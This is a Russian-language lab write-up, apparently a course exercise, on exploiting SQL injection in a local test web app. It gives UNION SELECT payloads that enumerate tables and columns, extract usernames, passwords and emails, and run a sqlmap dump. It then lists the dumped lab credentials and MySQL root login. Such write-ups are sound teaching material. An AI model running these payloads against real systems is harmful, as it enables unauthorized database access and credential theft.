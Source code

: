 ### Получение данных через SQLi:

1. Выполню установку БД с web-страницы согласно заданию
http://192.168.1.17:8080

2. Начну смотреть данные с web-страницы
http://192.168.1.17:8080/task/

3. Здесь мне предложено ввести в качестве параметра id (видимо пользователя)

Добавляю параметр (id=1) и вижу результат с логином "admin"
<br/>http://192.168.1.17:8080/task?id=1
<br/>http://192.168.1.17:8080/task?id=2
<br/>...

#### Получение данных ["вручную"]

##### Переберу id от 1 до 10

<br/>http://192.168.1.17:8080/task?id=1 -- (admin)
<br/>http://192.168.1.17:8080/task?id=2 -- (Volk)
<br/>http://192.168.1.17:8080/task?id=3 -- (Matroskin)
<br/>http://192.168.1.17:8080/task?id=4 -- (Vinni-pukh)
<br/>http://192.168.1.17:8080/task?id=5 -- (Neznaika)
<br/>http://192.168.1.17:8080/task?id=6 -- (kotenok)
<br/>http://192.168.1.17:8080/task?id=7 -- (Karlson)
<br/>http://192.168.1.17:8080/task?id=8 -- (Kesha)
<br/>http://192.168.1.17:8080/task?id=9 -- (Volk2)
<br/>http://192.168.1.17:8080/task?id=10 -- (пусто)

Как видно, в этой таблице всего 9 записей
<br/>

##### Проверю id 0,-1
<br/><a>http://192.168.1.17:8080/task/?id=0 -- (пусто)
<br/><a>http://192.168.1.17:8080/task?id=-1 -- (пусто)
<br/>
##### Попробую подобрать запрос (в.т.ч. количество колонок)
<a>http://192.168.1.17:8080/task?id=-1' UNION SELECT 1 -- -</a> (Неудачно) The used SELECT statements have a different number of columns
<a>http://192.168.1.17:8080/task?id=-1' UNION SELECT 1,1 -- -</a> (Неудачно) The used SELECT statements have a different number of columns
<a>http://192.168.1.17:8080/task?id=-1' UNION SELECT 1,1,1 -- -</a> (Удачно)
Предположу, что каждый запрос должен возвращать именно 3 колонки
<br/>

##### Получу список таблиц текущей БД (в строку)
<a>http://192.168.1.17:8080/task?id=-1' UNION SELECT GROUP_CONCAT(table_name SEPARATOR ';'),database(),null FROM information_schema.TABLES WHERE table_schema=database()-- -</a>

|Database|Tables|
|-|-|
|security|emails<br/>users|
<br/>

##### Получу имена колонок таблиц (всё так же в строку)
<a>http://192.168.1.17:8080/task?id=-1' UNION SELECT GROUP_CONCAT(column_name SEPARATOR ';'),null,null FROM information_schema.COLUMNS WHERE table_schema=database() AND TABLE_NAME = 'users'-- -</a>

|Table|Columns|
|-|-|
|users|id<br/>username<br/>password|
<br/>

<a>http://192.168.1.17:8080/task?id=-1' UNION SELECT null,GROUP_CONCAT(column_name SEPARATOR ';'),null FROM information_schema.COLUMNS WHERE table_schema=database() AND TABLE_NAME = 'emails'-- -</a>

|Table|Columns|
|-|-|
|emails|id<br/>email_id|
<br/>

##### Получу данные пользователя с id=9 из таблицы users
<a>http://192.168.1.17:8080/task?id=-1' UNION SELECT username,password,null FROM users WHERE id=9-- -</a>

|Login|Password|
|-|-|
|Volk2|Wa spoiuuuuu|
<br/>

##### Получу данные email пользователя с ником Vinni-pukh
<a>http://192.168.1.17:8080/task?id=-1' UNION SELECT GROUP_CONCAT(id,"-",email_id),null,null FROM emails -- -</a>

Из ранее полученных данных я знаю что у пользователя Vinni-pukh, id=4. Буду ориентироваться на эти данные
Получаю результат:
  |id (table users)|username|email|
  |-|-|-|
  |4|Vinni-pukh|honey_lover@otus-lab.com|
<br/>

---

#### Получение данных ["автоматически"] [SQLMap](https://github.com/sqlmapproject/sqlmap)
<br/>попробую снять дамп с БД...
<br/>python ./sqlmap.py -u "http://192.168.1.17:8080/task/?id=1" --dump
<br/>Готово

##### Получены файлы:
- users.csv
- emails.csv

##### Посмотрю таблицу users.csv

|id|password|username|
|-|-|-|
|1|kjhsd8@j0dfjk3$%jksli|admin|
|2|nu zayzc, nu pogodi!|Volk|
|3|a ya vse chawe zame4aiu, 4to menya kak budto kto-to podmenil|Matroskin|
|4|Ya tu4ka-tu4ka-tu4ka|Vinni-pukh|
|5|na Lune|Neznaika|
|6|Gav|kotenok|
|7|muwchina v samom rascvete sil|Karlson|
|8|pust vsegda budet Vovka |Kesha|
|9|Wa spoiuuuuu|Volk2|

Получен пароль пользователя Volk2
<br/>User: Volk2
<br/>Password: Wa spoiuuuuu

##### Посмотрю таблицу emails.csv
|id|email_id|
|-|-|
|1|admin@otus-lab.com|
|2|volchara1969@otus-lab.com|
|3|matroskin_is_prostokvashino@otus-lab.com|
|4|honey_lover@otus-lab.com|
|5|ne.znaika@otus-lab.com|
|6|kotenok@otus-lab.com|
|7|karlson@otus-lab.com|
|9|volk@otus-lab.com|

Получен почтовый ящик пользователя с ником Vinni-pukh (соответствие id=4)
<br/>User: Vinni-pukh (id=4 table Users)
<br/>Email: honey_lover@otus-lab.com

### Другой вариант получения всех таблиц и данных (обычный вход в БД MySQL)
(т.к. в docker-compose уже оставлен пароль администратора БД)
server: 192.168.1.17
port: 8989
login: root
password: Vdjo7#l-er

